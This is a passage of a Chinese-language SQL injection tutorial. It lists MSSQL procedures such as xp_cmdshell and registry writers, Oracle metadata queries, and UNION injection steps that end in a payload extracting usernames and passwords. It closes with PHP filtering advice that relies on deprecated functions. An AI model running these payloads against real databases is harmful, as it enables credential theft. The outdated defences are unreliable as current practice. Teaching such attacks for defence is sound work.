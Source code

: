 <table><thead><tr><th>过程</th><th style="text-align:left">说明</th></tr></thead><tbody><tr><td>sp_addlogin</td><td style="text-align:left">创建新的SQL Server登录</td></tr><tr><td>xp_cmdshell</td><td style="text-align:left">它可以执行操作系统的任何指令</td></tr><tr><td>xp_dirtree</td><td style="text-align:left">用来列出对应目录下的文件和文件夹</td></tr><tr><td>xp_enumgroups</td><td style="text-align:left">列出当前系统的使用群组及其说明</td></tr><tr><td>xp_fixeddrives</td><td style="text-align:left">列表所有驱动器名和每个驱动器上的空闲空间大小</td></tr><tr><td>xp_loginconfig</td><td style="text-align:left">一些服务器安全配置的信息</td></tr><tr><td>xp_enumerrorlogs</td><td style="text-align:left">枚举域名相关信息</td></tr><tr><td>Xp_regdeletekey</td><td style="text-align:left">可以删除注册表指定的键</td></tr><tr><td>Xp_regdeletevalue</td><td style="text-align:left">可以删除注册表指定的键里指定的值</td></tr><tr><td>Xp_regread</td><td style="text-align:left">可以读取注册表指定的键里指定的值</td></tr><tr><td>Xp_regwrite</td><td style="text-align:left">可以写入注册表指定的键里指定的值</td></tr></tbody></table>
### 4.Oracle
获取元数据  
user_tablespaces视图，查看表空间  
select tablespace_name from user_tablespaces  
user_table视图，查看当前用户的所有表  
select table_name from user_tables where rownum=1  
user_tab_columns视图，查看当前用户的所有列  
select column_name from user_tab_columns where table_name ='user'  
all_user视图，查看Oracle数据库的所有用户  
select username from all_user  
user_objects视图，查看当前用户所有对象  
select object_name from user_objects  
查看当前用户的角色  
select * from user_role_privs;   

**查询语句**  
UNION 查询  
获取列数:
order by x  
获取敏感信息:
 1. 当前用户权限 （select * from session_roles）
 2. 当前数据库版本 （ select banner from sys.v_$version where rownum=1
 3. 服务器出口IP （用utl_http.request 可以实现）
 4. 服务器监听IP （select utl_inaddr.get_host_address from dual）
 5. 服务器操作系统 （select member from v$logfile where rownum=1）
 6. 服务器sid ( 远程连接的话需要， select instance_name fromv$instance;）
 7. 当前连接用户 （select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual）

通过查询元数据的方式，获取表名，列名后查询数据:
union select username,password，null from user--  
从user表中获取用户名和密码，列数为3，查询位置为1，2  
也可以枚举法猜解表名和列名。




## 三、防御SQL注入
### 1.过滤
以PHP为例，在接受参数时对其进行过滤。  
开启 magic_quotes_gpc和magic_quotes_runtime  
addslashes函数 $id=addslashes($_GET('id'))  
mysql_real_escape_string函数和mysql_escape_string函数  
或者使用黑名单方式进行过滤,如正则表达式  
### 2.严格的数据类型
例如在接受数字型时使用 is_numeric进行判断,使用intval进行字符转换或者ctype_digit()防止数字型注入
